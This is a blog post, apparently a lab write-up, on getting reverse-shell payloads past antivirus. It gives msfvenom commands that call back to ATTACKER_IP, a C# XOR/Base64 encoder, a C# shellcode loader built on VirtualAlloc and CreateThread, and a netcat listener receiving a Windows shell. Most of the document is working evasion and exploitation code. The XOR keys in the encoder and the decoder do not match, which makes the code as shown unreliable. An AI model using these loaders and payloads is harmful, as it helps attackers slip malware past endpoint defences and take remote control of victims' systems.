 ```yaml
---
title: Evading AV
date: 2023-07-08T22:12:14.963Z
tags:
  - informative
description: A short blog post which touches ways to create payloads which have
  more a chance to evade anti-virus solutions.
---
```

## AV Detection

Antivirus solutions are able to analyze EXE files based on the information in the PE header and other PE sections.

Below are some interesting ways you can store shellcode in a PE

* Define shellcode as a local variable within the main function - it will be scored in the `.text` PE section
* Define shellcode as a global variable - it will be stored in the `.data` section
* Store shellcode as a raw binary in an icon image and link it within the code - stored in `.rsrc` data section
* Add a custom section to store the shellcode

## Shellcode Encoding - `MSFVenom`

Public tools such as `Metasploit` provide encoding and encryption features. However, AV vendors are aware of the way these tools build their payloads and take measures to detect them. If you try using any feature out of the box, chances are that your payloads will be detected as soon as the file touches the disk.

To generate a simple payload with this method, see below

First list all encoders available to `msfvenom`

```shell
user@machine$ msfvenom --list encoders | grep excellent
	cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```

You can indicate what encoder to use by using the `-e` switch, and define how many times you want to encode it with the `-i` switch

```shell
user@machine$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
...
```

However, if you try and use this payload then the AV will start complaining instantly.

If encoding doesn’t work, you could try in encryption, we would expect encryption to have a higher success rating than encoding.

## Shellcode Encryption - `MSFVenom`

Similarly to encoding, you can list the available encryption algorithms:

```shell
user@machine$ msfvenom --list encrypt
	Name
    ----
    aes256
    base64
    rc4
    xor
```

This example will build an XOR encrypted payload. For this type of algorithm, you need to specify a key, in the example the key is “supersecret”

```shell
user@machine$ msfvenom - windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "supersecret" -o xored-revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: xored-revshell.exe
```

This will also be detected more often than not… sorry to burst your bubble.

The way to overcome these super-smart antivirus solutions is to create your own payload, so you will now learn how to do that.

## Creating a Custom Payload

Antivirus solutions do not know what to do to analyze your payload, notice you don’t have to do anything too complex, as long as it is confusing enough for the AV to analyse (this is not hard, as static analysis generally isn’t too good)

For this example, you will use a simple reverse shell generated by `msfvenom` and use a combination of XOR and Base64 to bypass windows defender.

Generate a reverse shell with `msfvenom` in C# format

```shell
user@machine$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp \
             -f csharp
```

Before building the actual payload, you will create a program that will encode the program how you like, called the encoder. In this case you will be XORing the payload with a custom key first, then encoding it using base64. Below is the C# source code

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Encrypter
{
    internal class Program
    {
        private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
        static void Main(string[] args)
        {
            //XOR Key - It has to be the same in the Dropper for Decrypting
            string key = "supersecret";

            //Convert Key into bytes
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);

            //Original Shellcode here (csharp format)
            byte[] buf = new byte[460] { 0xfc,0x48,0x83,..,0xda,0xff,0xd5 };

            //XORing byte by byte and saving into a new array of bytes
            byte[] encoded = xor(buf, keyBytes);
            Console.WriteLine(Convert.ToBase64String(encoded));
        }
    }
}
```

Remember:

* Change the encryption key (if you want…)
* Change the value of the `buf` variable with the shellcode output by `msfvenom`

You can then compile and execute the program with the following commands (windows)

```powershell
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
  OJNFOBNopoijfvwo8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```

### Self-decoding Payload

Since you have an encoded payload, you need to adjust your code so that it decodes the shellcode before executing it. To match the encoder, you need to decode everything in the reverse order. Decoding code can be found below:

```csharp

using System;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
  
  private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
  public static void Main()
  {

    string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
    byte[] data = Convert.FromBase64String(dataBS64);

    string key = "THMK3y123!";
    //Convert Key into bytes
    byte[] keyBytes = Encoding.ASCII.GetBytes(key);

    byte[] encoded = xor(data, keyBytes);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

Compile the code using:

```powershell
C:\> csc.exe EncStageless.cs
```

Before running the payload, set up a netcat listener to listen on the port you supplied to metasploit when you generated the payload:

```shell
user@machine$ nc -lvp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from ip-10-10-139-83.eu-west-1.compute.internal 49817 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>
```
